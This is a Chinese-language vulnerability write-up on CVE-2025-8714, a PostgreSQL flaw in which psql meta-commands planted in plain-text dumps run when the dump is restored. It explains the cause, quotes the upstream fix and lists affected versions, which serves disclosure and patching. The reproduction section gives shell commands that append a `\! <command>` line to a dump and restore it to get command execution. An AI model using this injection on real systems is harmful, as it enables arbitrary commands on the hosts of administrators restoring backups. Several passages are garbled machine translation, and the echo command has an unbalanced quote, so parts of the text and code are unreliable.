


# CVE-2025-8714 CWE-829 PostgreSQL 命令注入

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **CWE-829（ Inclusion of Functionality from Untrusted Control Sphere）：**系统在运行时直接从不可信的控制域（例如外部库、第三方脚本、CDN、插件或数据库中的不可信对象）引入功能，而没有进行足够的校验或隔离。这样做会使攻击者有机会通过篡改或伪造的外部功能注入恶意逻辑，从而导致代码执行、信息泄露或权限提升。

## 漏洞原理

PostgreSQL 在使用 `pg_dump`、`pg_dumpall` 或 `pg_restore` 生成 纯文本转储文件时，没有正确转义数据库中不可信对象（如表名、注释）中的特殊内容，若恶意超级用户将 `\!` 等 psql 元命令植入其中，这些内容会被原样写入转储；当管理员使用 `psql -f dump.sql` 恢复时，`psql` 会将其当作客户端命令执行，从而在 恢复数据库的主机上触发任意系统命令执行。

## 漏洞定位


问题在于“生成纯文本垃圾堆”和“执行垃圾堆”之间的信任边界：

1。 联合国 `src/bin/pg_dump/pg_dump.c`， `pg_dumpall.c`,以及 `pg_backup_archiver.c` 将可受数据库对象内容影响的文本写入平版脚本,但脚本的开头不允许恢复方进入禁止元指令的状态。
2. `src/bin/psql/command.c::HandleSlashCmds()` 会针对输入中的所有反斜杠命令直接调用 `exec_command()`；恢复不受信任的转储文件时，`\!`、`\copy ... PROGRAM`、`\o` 等恶意元命令可在客户端主机上创建文件或执行命令。

```c
cmd = psql_scan_slash_command(scan_state);

/* Vulnerable versions executed every parsed backslash command. */
status = exec_command(cmd, scan_state, cstack, query_buf, previous_buf);
```

固定写作a `\restrict` 在倾覆页头和匹配时使用随机键 `\unrestrict` 在尾部； `HandleSlashCmds()` 仅限模式 `\unrestrict` 允许使用,因此即使数据库内容被构建为 psql meta commands,它们也不能在恢复时执行。

## 漏洞修复


升级到 PostgreSQL 17.6、16.10、15.14、14.19、13.22，或相应分支中的更高版本。
介绍 `psql`'限制'模式,它禁止执行所有元命令,除非明确退出模式 `\unrestrict` 命令。 当生成一个纯文本垃圾堆时， `pg_dump`， `pg_dumpall`,以及 `pg_restore` 将激活 `psql`限制模式,防止在恢复过程中执行潜在的恶意命令。

```c
/*
 * Generates a valid restrict key (i.e., an alphanumeric string) for use with
 * psql's \restrict and \unrestrict meta-commands.  For safety, the value is
 * chosen at random.
 */
char *
generate_restrict_key(void)
{
	uint8		buf[64];
	char	   *ret = palloc(sizeof(buf));

	if (!pg_strong_random(buf, sizeof(buf)))
		return NULL;

	for (int i = 0; i < sizeof(buf) - 1; i++)
	{
		uint8		idx = buf[i] % strlen(restrict_chars);

		ret[i] = restrict_chars[idx];
	}
	ret[sizeof(buf) - 1] = '\0';

	return ret;
}

/*
 * Checks that a given restrict key (intended for use with psql's \restrict and
 * \unrestrict meta-commands) contains only alphanumeric characters.
 */
bool
valid_restrict_key(const char *restrict_key)
{
	return restrict_key != NULL &&
		restrict_key[0] != '\0' &&
		strspn(restrict_key, restrict_chars) == strlen(restrict_key);
}
```

## 影响范围


** 受影响的版本:** PostgreSQL：

- 13.0 改为 13.21

- 14.0 改为 14.18

- 15.0 改为 15.13

- 16.0 改为 16.9

-17点到 17.5

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 16.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
CNA:PostgreSQL    Base Score:8.8 HIGH    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:16.0:*:*:*:*:*:*:*
```



## 漏洞复现

进入容器命令行运行 EXP 文件，之后输入命令，可以看到成功执行了 id 命令

```bash
docker exec -it postgres-16.0 bash CVE-2025-8714-EXP.sh
```




## EXP分析

创建一个演示数据库来生成转储文件。

```bash
psql -U postgres -v ON_ERROR_STOP=1 <<'SQL'
CREATE SCHEMA demo;
CREATE TABLE demo.t(x int);
INSERT INTO demo.t VALUES(1);
SQL
```

然后将其转储。

```bash
pg_dumpall -U postgres > /tmp/vuln_dump.sql
```

随后向转储文件追加要执行的命令：

```bash
echo '\! <your-command> | tee -a /tmp/vuln_dump.sql
```

恢复即可成功 rce：

```bash
psql -U postgres < /tmp/vuln_dump.sql
```

## 参考链接


[NVD - CVE-2025-8714](https://nvd.nist.gov/vuln/detail/CVE-2025-8714)

[Restrict psql meta-commands in plain-text dumps. · postgres/postgres@71ea0d6](https://github.com/postgres/postgres/commit/71ea0d6795438f95f4ee6e35867058c44b270d51#diff-25a906a68d45f3a3fcf243f2e4d8808581f6f28eb7f06ad715017341c3c2ad86)

[Proof of Concept: PostgreSQL CVE-2025–8714 | by Toshith | Aug, 2025 | System Weakness](https://systemweakness.com/proof-of-concept-postgresql-cve-2025-8714-ad5d88cf5a1d)
